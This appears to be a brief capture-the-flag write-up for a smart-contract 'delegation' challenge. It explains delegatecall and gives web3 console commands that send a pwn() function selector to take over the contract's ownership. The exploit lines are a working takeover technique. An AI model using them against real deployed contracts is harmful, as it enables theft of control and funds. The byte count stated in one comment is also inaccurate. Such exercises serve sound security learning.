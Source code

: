 delegation

// send transaction to delegate contract

// _delegatecall_ method allows contract can dynamically load code from different address at runtime

NOTE: _delegatecall_ *can change state*

```javascript
await contract.owner.call() // => returns rightful owner
await contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)}) // pwn() is the method we want to call; sends, as msg.data, the first [8] bytes of the hashed invoked function
await contract.owner.call() // => should see contract owner change to attacker once tx mined
```
